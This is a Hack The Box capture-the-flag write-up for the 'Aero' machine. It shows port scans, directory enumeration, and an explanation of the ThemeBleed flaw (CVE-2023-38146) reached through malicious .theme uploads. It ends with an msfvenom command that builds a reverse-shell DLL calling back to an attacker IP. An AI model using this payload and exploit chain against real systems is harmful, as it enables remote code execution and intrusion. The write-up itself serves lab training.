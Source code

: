 ```yaml
---
title: "Aero"
date: 2024-02-21
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "aero", "htb writeup", "htb walkthrough", "hackthebox", "writeup"]
---
```


# Aero

# Aero

## Enumeration 
### Port Scan
# TCP
```sh
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Microsoft IIS httpd 10.0
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Aero Theme Hub
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

# UDP
```sh
PORT      STATE         SERVICE      VERSION
53/udp    open|filtered domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
123/udp   open|filtered ntp
135/udp   open|filtered msrpc
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   open|filtered snmp
162/udp   open|filtered snmptrap
445/udp   open|filtered microsoft-ds
500/udp   open|filtered isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   open|filtered ipp
1434/udp  open|filtered ms-sql-m
1900/udp  open|filtered upnp
4500/udp  open|filtered nat-t-ike
49152/udp open|filtered unknown
```



## Gobuster
```sh
/home
/upload
/.
```


# Screenshots
![screenshot](/assets/images/aero1.png)

http://10.10.11.237/home#upload
![screenshot](/assets/images/aero2.png)

![screenshot](/assets/images/aero3.png)
Allowed upload
- `.theme`
- `.themepack`

# Foothold
CVE-2023-38146
https://github.com/exploits-forsale/themebleed

- The theme tries to load the style file from a SMB share on my host.
- That triggers interaction with a file ending in `_vrf.dll`, first opening it with the `CreateFile` API to read it and verify it's signature, and then opening it with the `LoadLibrary` API. 
- The SMB server uses the differences in how it's opened to return either the legit DLL or the malicious one. 


Reverse shell DLL
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.42 LPORT=445 -f dll > VerifyThemeVersion
```
